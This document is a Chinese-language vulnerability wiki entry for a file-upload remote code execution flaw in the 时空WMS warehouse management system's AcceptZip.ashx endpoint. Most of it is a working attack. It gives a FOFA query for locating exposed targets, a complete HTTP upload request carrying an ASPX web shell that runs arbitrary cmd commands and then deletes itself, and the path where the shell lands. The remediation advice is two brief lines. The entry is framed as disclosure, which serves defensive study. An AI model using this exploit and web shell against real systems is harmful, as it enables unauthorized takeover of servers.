

# 时空WMS-仓储精细化管理系统 AcceptZip.ashx 文件上传致RCE漏洞

# 漏洞描述

时空WMS-仓储精细化管理系统 AcceptZip.ashx 文件上传致RCE漏洞，未授权攻击者可上传恶意木马文件控制整个服务器。

# 影响版本

时空WMS

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA： body="SKControlKLForJson.ashx"

POC/EXP：

POST /AcceptZip.ashx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: text/plain

<%@ Page Language="jscript" validateRequest="false" %><%var c=new System.Diagnostics.ProcessStartInfo("cmd");var e=new System.Diagnostics.Process();var out:http://System.IO.StreamReader,EI:http://System.IO.StreamReader;c.UseShellExecute=false;c.RedirectStandardOutput=true;c.RedirectStandardError=true;e.StartInfo=c;c.Arguments="/c " + Request.Item["cmd"];e.Start();out=e.StandardOutput;EI=e.StandardError;e.Close();Response.Write(out.ReadToEnd() + EI.ReadToEnd());http://System.IO.File.Delete(Request.PhysicalPath);Response.End();%>
------WebKitFormBoundaryssh7UfnPpGU7BXfK--

上传后的路径为: /Down/  目录下时间线一致的文件

# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
